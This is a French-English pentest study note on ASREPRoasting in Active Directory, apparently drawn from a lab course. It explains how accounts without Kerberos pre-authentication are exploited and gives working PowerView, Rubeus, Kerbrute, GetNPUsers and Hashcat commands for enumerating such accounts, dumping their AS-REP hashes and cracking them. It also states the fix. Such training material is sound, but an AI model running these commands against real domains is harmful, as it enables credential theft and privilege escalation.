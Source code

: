 # ASREPRoasting

### <mark style="color:blue;">ASREPRoasting</mark>

{% hint style="info" %}
Il est possible d’obtenir le **Ticket Granting Ticket (TGT)** pour n’importe quel compte ayant l’option **"Ne pas exiger l’authentification préalable Kerberos"** activée.

De nombreux guides d’installation de fournisseurs recommandent de configurer ainsi leurs **comptes de service**.

La réponse du **service d’authentification (AS\_REP)** est chiffrée avec le **mot de passe du compte**, et **tout utilisateur du domaine** peut en faire la demande.

**Fonctionnement de l’authentification Kerberos avec la pré-authentification activée**

1. **L’utilisateur saisit son mot de passe**
2. **Un horodatage (timestamp) est chiffré** avec ce mot de passe
3. **Le contrôleur de domaine** (DC) **déchiffre cet horodatage** pour vérifier que l’utilisateur a utilisé le bon mot de passe
4. **Si la validation est réussie**, un **TGT** est délivré à l’utilisateur pour lui permettre d’effectuer d’autres requêtes d’authentification sur le domaine

**Vulnérabilité lorsque la pré-authentification est désactivée**

Si un compte a la **pré-authentification Kerberos désactivée**, alors **un attaquant peut demander les données d’authentification de ce compte** et récupérer un **TGT chiffré** auprès du **contrôleur de domaine**.

Ce **TGT chiffré** peut ensuite être soumis à une **attaque hors ligne sur le mot de passe** en utilisant des outils comme **Hashcat** ou **John the Ripper**.

***

🔹 **Ticket Granting Ticket (TGT)**\
👉 C’est un ticket délivré par le contrôleur de domaine lorsqu’un utilisateur s’authentifie avec Kerberos. Il permet à l’utilisateur de demander d’autres tickets d’accès aux services du domaine sans avoir à entrer à nouveau son mot de passe.

🔹 **Do not require Kerberos pre-authentication (Ne pas exiger l’authentification préalable Kerberos)**\
👉 C’est une option qui, si activée sur un compte, **désactive une protection** contre les attaques sur Kerberos. Cela signifie qu’un attaquant peut demander des données d’authentification sans avoir à fournir un mot de passe valide au préalable.

🔹 **AS\_REP (Authentication Service Reply)**\
👉 C’est la réponse envoyée par le contrôleur de domaine lorsqu’un utilisateur fait une demande d’authentification Kerberos. Si la pré-authentification est désactivée, cette réponse est chiffrée avec le mot de passe du compte et peut être exploitée par un attaquant.

***

📌 **Si la pré-authentification Kerberos est désactivée pour un compte :**\
✅ **Tout utilisateur du domaine** peut demander une réponse d’authentification chiffrée (AS\_REP).\
✅ Cette réponse est chiffrée avec le **mot de passe du compte ciblé**.\
✅ **Un attaquant peut récupérer cette réponse** et essayer de casser le chiffrement **hors ligne** en testant des mots de passe.\
✅ S’il réussit, il récupère **le mot de passe du compte ciblé**, ce qui peut lui permettre **d’escalader ses privilèges** dans Active Directory.

🔴 **C’est une vulnérabilité sérieuse car elle permet de récupérer des identifiants sans générer beaucoup d’alertes sur le réseau !**

💡 **Solution : Vérifier et s’assurer que la pré-authentification Kerberos est activée sur tous les comptes, en particulier les comptes de service.**
{% endhint %}

**Viewing an Account with the Do not Require Kerberos Preauthentication Option**

<figure><img src="../../../.gitbook/assets/preauth_not_reqd_mmorgan.webp" alt=""><figcaption></figcaption></figure>

**ASREPRoasting** est similaire à **Kerberoasting**, mais cela implique d'attaquer le **AS-REP** au lieu du **TGS-REP**.

Un **SPN (Service Principal Name)** n'est pas requis.

Ce paramètre peut être **énuméré** avec **PowerView** ou des outils intégrés tels que le module **PowerShell AD**.

L'attaque elle-même peut être effectuée avec l’outil **Rubeus** et d'autres outils pour obtenir le **ticket** du compte cible.

Si un attaquant a les permissions **GenericWrite** ou **GenericAll** sur un compte, il peut **activer cet attribut** et obtenir le **ticket AS-REP** pour **le casser hors ligne** afin de récupérer le **mot de passe du compte**, puis **désactiver l’attribut** à nouveau.

Comme pour **Kerberoasting**, le succès de cette attaque dépend du fait que le compte ait un **mot de passe relativement faible**.

Ci-dessous se trouve un exemple de l'attaque. **PowerView** peut être utilisé pour **énumérer les utilisateurs** ayant leur valeur **UAC** définie sur **DONT\_REQ\_PREAUTH**..

<mark style="color:green;">**Enumerating for DONT\_REQ\_PREAUTH Value using Get-DomainUser**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```
{% endcode %}

<mark style="color:green;">**Retrieving AS-REP in Proper Format using Rubeus**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
[*] AS-REP hash:
     $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:D16CA
```
{% endcode %}

We can then crack the hash offline using Hashcat with mode `18200`.

<mark style="color:green;">**Cracking the Hash Offline with Hashcat**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```
{% endcode %}

When performing user enumeration with `Kerbrute`, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.

<mark style="color:green;">**Retrieving the AS-REP Using Kerbrute**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

2022/04/01 13:14:17 >  [+] mmorgan has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:431a9c0a
```
{% endcode %}

<mark style="color:green;">**Hunting for Users with Kerberoast Pre-auth Not Required**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```
{% endcode %}

